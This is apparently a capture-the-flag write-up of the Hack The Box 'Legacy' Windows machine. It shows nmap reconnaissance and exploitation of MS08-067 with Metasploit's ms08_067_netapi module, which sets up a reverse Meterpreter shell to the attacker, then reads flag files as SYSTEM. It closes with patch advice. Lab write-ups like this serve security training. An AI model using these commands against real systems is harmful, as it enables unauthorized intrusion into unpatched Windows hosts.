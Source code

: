 [Done](Done)
## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
- **Exploits Used**:
    - [SMB](SMB) vulnerability: **MS08-067 (CVE-2008-4250)** — Remote Code Execution
- **Tools**:
    - [Nmap](https://nmap.org/)
    - [Metasploit](https://www.metasploit.com/)
    - [Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)

---

## 🔍 Recon

### 📌 Add to `/etc/hosts`

```bash
echo "10.10.10.4 legacy.htb" | sudo tee -a /etc/hosts
```

### 🔎 Nmap Full TCP Scan

```bash
nmap -sC -sV -p- -Pn -T4 legacy.htb
```

### 🔐 Vulnerability Scan (Targeted SMB Ports)

```bash
nmap -p 135,139,445 -sT -A -O -sV -sC --script vuln -Pn -T4 legacy.htb
```

✅ **Findings**: Vulnerable to [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250) – MS08-067 (Server Service Vulnerability)

---

## 💥 Exploitation

### 🚀 Launch Metasploit

```bash
msfconsole -q
```

### 🔍 Search for Exploit

```bash
search CVE-2008-4250
```

✅ Use: `exploit/windows/smb/ms08_067_netapi`

### 🛠️ Configure Payload

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.10.10.4
set LHOST tun0
run
```

---

## 🐚 Meterpreter Shell

### 🎉 Confirm Access

```bash
getuid
```

✅ Output: `NT AUTHORITY\SYSTEM`

### 📁 Navigate to Flags

```shell
cd "Documents and Settings/john/Desktop"
type user.txt

cd ../../Administrator/Desktop
type root.txt
```

---

## 🛡️ Mitigation

> **Patch Recommendation**:  
> Apply [Microsoft Security Bulletin MS08-067](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067) to fix the remote code execution vulnerability in the Server service. This update is **critical** for Windows XP, 2000, and 2003 systems.

---

## 🧠 Actions Learned from This Box

- Importance of **patching legacy systems** 🩹
- SMB port enumeration using Nmap
- Exploiting Windows vulnerabilities using **Metasploit**
- Using `Meterpreter` for privilege access and system exploration
- CVE identification and mitigation strategy 📚

---

## 🔗 References

- [NVD — CVE-2008–4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250)
- [MITRE — CVE-2008–4250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250)
- [MS08-067 Microsoft Security Bulletin](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)
